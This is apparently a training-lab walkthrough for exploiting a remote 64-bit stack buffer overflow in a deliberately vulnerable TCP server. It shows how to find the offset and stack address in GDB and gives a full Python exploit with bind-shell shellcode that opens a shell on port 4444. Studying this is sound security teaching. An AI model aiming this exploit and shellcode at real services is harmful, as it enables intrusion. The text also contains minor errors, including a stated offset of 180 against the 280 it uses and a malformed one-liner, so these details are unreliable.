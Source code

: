 # Development of a remote buffer overflow exploit - 64 bit

## Introduction

We will create a functional exploit for a remote 64bit program with a stack overflow vulnerability - 
a remote exploit. 


### Source

* Source directory: `~/challenges/challenge13/`
* Source files: [challenge13](https://github.com/dobin/yookiterm-challenges-files/tree/master/challenge13)

You can compile it by calling `make` in the folder `~/challenges/challenge13`

The source is similar to challenge12. Same vulnerability, but different input vector.
Instead of giving the vulnerable data via stdin (or previously, command line arguments), we now
send it via TCP/IP socket.


### Vulnerability

The vulnerability lies here:

```
void handleData(char *username, char *password) {
    char name[128];
    ...
    strcpy(name, username);
    ...
}

void handleClient (int socket) {
   char username[1024];
   char password[1024];

   read(socket, username, 1023);
   read(socket, password, 1023);

   int ret = handleData(username, password);
   ...
}
```

## Usage

The server expects two messages - similar to challenge12, but this time they
are not read via stdin, but from a TCP/IP socket:

```sh
$ nc localhost 5001
Username: test
Password: test
Not admin.
```

But username overflows nevertheless. 


## How to interact with server with python pwntools




###########################################

## Debugging notes

### Hanging

The program may hang. If you debug it again, you have to kill it:
```
root@hlUbuntu64:~/challenges/challenge13# ./challenge13
ERROR on binding: Address already in use

root@hlUbuntu64:~/challenges/challenge13# pkill challenge13
root@hlUbuntu64:~/challenges/challenge13# pkill gdb  # for good measure
```

### Debug the server

Set `follow-fork-mode child` in GDB to follow the children (should be enabled by default).

Start the server in the background:
```
root@hlUbuntu64:~/challenges/challenge13# ./challenge13 &
[1] 12345
```

Note the PID. Start gdb, and attach the the server (-parent). The process will be stopped, so we
continue with `c`:
```
root@hlUbuntu64:~/challenges/challenge13# gdb -q
gdb-peda$ attach 12345
...
gdb-peda$ c
```

The `attach` command is in the GDB command history.
Reattach to the parent when the child crashed:

Every time the server spawn a child, GDB will follow it. When you are finished debugging,
and want to try the next version of the exploit, reattach and continue (`attach 12345` then `c`)


## Finding the offset

The offset should be 280. You should verify this by sending a payload, and obsever the output in GDB:
```
root@hlUbuntu64:~/challenges/challenge13# python -c 'import sys; sys.stdout.write("XXXX" + "A" * (280-4) + "BBBB"') | nc localhost 5001
```
Note we use `sys.stdout.write()` instead of `print()`, as the latter will always output a newline, while `write()` doesnt. There is also a extra
pattern of "XXXX" at the beginning, which will be used shortly.

Payload:
```
XXXXAAAAA...AAAAAABBBB
```

GDB will show something like:
```
RIP: 0x42424242 ('BBBB\n')
...
Stopped reason: SIGSEGV
0x0000000042424242 in ?? ()
```

## Find the memory address

The GDB plugin Peda provides a function to search the memory for a pattern. As we already have the
child process crashed with out pattern in GDB, lets get the memory address:

```
gdb-peda$ find XXXX
Searching for 'XXXX' in: None ranges
Found 3 results, display max 3 items:
   libc : 0x7ffff79626bc --> 0x2e00585858585858 ('XXXXXX')
[stack] : 0x7fffffffdbf0 ("XXXX", 'A' <repeats 196 times>...)
[stack] : 0x7fffffffe120 ("XXXX", 'A' <repeats 196 times>...)
```

Lets try the last one: `0x7fffffffe120`:

```
gdb-peda$ x/32x 0x7fffffffe120
0x7fffffffe120: 0x58    0x58    0x58    0x58    0x41    0x41    0x41    0x41
0x7fffffffe128: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe130: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe138: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
gdb-peda$ x/1s 0x7fffffffe120
0x7fffffffe120: "XXXX", 'A' <repeats 196 times>...
```

Looking good.

## Exploit

Copy the file `challenge13-exp-skel.py`, open it and make the following changes.

We use the shellcode address `0x7fffffffe120`. Convert the address with `[::-1]` in little-endian format.
```python
ret_addr = "\x7f\xff\xff\xff\xe1\x20"[::-1]
```

Use the verified offset: `180`
```
offset = 280
```

Full exploit:
```
root@hlUbuntu64:~/challenges/challenge13# cat challenge13-exp-skel.py
#!/usr/bin/python

import sys
import socket

shellcode = "\x48\x31\xc9\x48\x81\xe9\xf5\xff\xff\xff\x48\x8d\x05\xef" + "\xff\xff\xff\x48\xbb\xd2\x44\xe6\x0a\xfb\xc8\x96\x10\x48" + "\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xb8\x6d\xbe" + "\x93\x91\xca\xc9\x7a\xd3\x1a\xe9\x0f\xb3\x5f\xc4\xd7\xd6" + "\x60\xe4\x0a\xea\x94\xde\x99\x34\x2e\xf6\x50\x91\xf9\xce" + "\x1f\xd7\x2e\xd4\x52\xf4\xcd\xde\x21\x24\x2e\xcd\x52\xf4" + "\xcd\xde\x87\xb8\x47\xb8\x42\x04\x06\xfc\x31\x8a\x4b\xe3" + "\x7f\x0d\xa2\xad\x48\x4b\x0c\x5d\x25\x99\xa1\xf8\x3f\xa1" + "\x2c\xe6\x59\xb3\x41\x71\x42\x85\x0c\x6f\xec\xf4\xcd\x96" + "\x10"

buf_size = 256
offset = 280
ret_addr = "\x7f\xff\xff\xff\xe1\x20"[::-1]

exploit = "\x90" * (buf_size - len(shellcode))
exploit += shellcode
exploit += "A" * (offset - len(exploit))
exploit += ret_addr

sys.stdout.write(exploit)
```

Reattach GDB to the parent, and test it:
```
root@hlUbuntu64:~/challenges/challenge13# ./challenge13-exp.py | nc localhost 5001

```

If everything works, the exploit will block. Open a new terminal, and connect
to localhost:4444, where the shellcode started our shell:
```
root@hlUbuntu64:~/challenges/challenge13# nc -v localhost 4444
nc: connect to localhost port 4444 (tcp) failed: Connection refused
root@hlUbuntu64:~/challenges/challenge13# nc -v localhost 4444
Connection to localhost 4444 port [tcp/*] succeeded!
ls
Makefile
challenge13
challenge13-exp-skel.py
challenge13-exp.py
challenge13.c
peda-session-challenge13.txt
```

Use nc parameter `-v` to know if it was able to connect or not.
Note that there is no output if you just connect, you need to type in a command.


## Questions

* Can you make the exploit work, if the program is started standalone (without GDB)?
* Instead of the listener shellcode, can you use a connect-back shellcode?
